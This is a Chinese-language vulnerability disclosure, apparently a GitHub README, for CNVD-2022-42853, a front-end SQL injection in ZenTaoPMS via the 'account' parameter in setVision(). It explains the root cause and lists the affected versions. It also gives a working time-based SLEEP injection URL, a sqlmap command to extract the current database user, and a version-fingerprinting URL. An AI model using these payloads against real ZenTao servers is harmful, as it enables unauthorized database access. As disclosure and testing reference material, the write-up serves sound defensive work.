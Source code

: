 ## CNVD-2022-42853

禅道（ZenTaoPMS）受影响版本：  

    开源版：16.5，16.5beta1    
    企业版：6.5，6.5beta1    
    旗舰版：3.0，3.0beta1
    
## POC

**延时POC**:  
    
`http://ip:port/index.php?account=admin' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))a)-- b`

**SQLMap POC**:    
    
`python sqlmap.py -u http://ip:port/index.php?account=admin -p account --current-user `    

## 查看版本

① `http://ip:port/index.php?mode=getconfig`    
    
② 登录框看源码    

![image](https://user-images.githubusercontent.com/20917372/181399320-e98e0b71-8622-4f67-b61b-db491dfcb6fb.png)

## 漏洞成因

漏洞点出现在以上版本的**zbox\app\zentao\framework\base\router.class.php**文件里，具体函数为**setVision()**    
    
该函数未对外界传入的account参数做过滤直接拼接SQL语句，触发SQL注入漏洞    

![image](https://user-images.githubusercontent.com/20917372/181397275-32bdff31-305e-418f-badd-0d4670eb8a63.png)

从代码里可以看到，$account变量支持$_GET和$_POST两种方法传参，可前台SQLi

## 免责声明

漏洞披露时间已过CNVD公开日期，该项目仅对内部安全测试提供参考。对外渗透测试请取得授权进行，否则后果自负，与本项目无关。


